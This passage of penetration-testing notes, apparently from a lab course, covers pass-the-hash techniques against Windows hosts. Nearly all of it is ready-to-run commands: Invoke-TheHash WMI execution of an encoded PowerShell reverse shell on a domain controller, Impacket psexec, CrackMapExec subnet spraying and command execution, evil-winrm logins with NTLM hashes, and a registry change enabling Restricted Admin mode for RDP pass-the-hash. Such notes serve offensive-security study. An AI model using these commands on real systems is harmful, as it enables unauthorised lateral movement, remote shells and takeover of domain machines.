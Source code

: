#### Invoke-TheHash with WMI to execute our PowerShell reverse shell script in the target computer
```PowerShell
Import-Module .\Invoke-TheHash.psd1
```

```PowerShell
Invoke-WMIExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "powershell -e JABjAGwAaQB<..SNIP..>=="
```
The result is a reverse shell connection from the `DC01` host (`172.16.1.10`)

![[Pasted image 20230305140533.png]]


## Pass-the-Hash - Linux

### Impacket PsExec

#### Pass the Hash with Impacket PsExec
```Shell
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

May also use:

- impacket-wmiexec
- impacket-atexec
- impacket-smbexec

### CrackMapExec

#### Pass the Hash with CrackMapExec
```Shell
crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
```
If we want to perform the same actions but attempt to authenticate to each host in a subnet using the local administrator password hash, we could add `--local-auth` to our command

#### CrackMapExec - Command Execution
```Shell
crackmapexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami
```

### Evil-WinRM

#### Pass the Hash with evil-winrm
```Shell
evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```

### RDP (Linux)

#### Enable Restricted Admin Mode to Allow PtH
```cmd.exe
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```
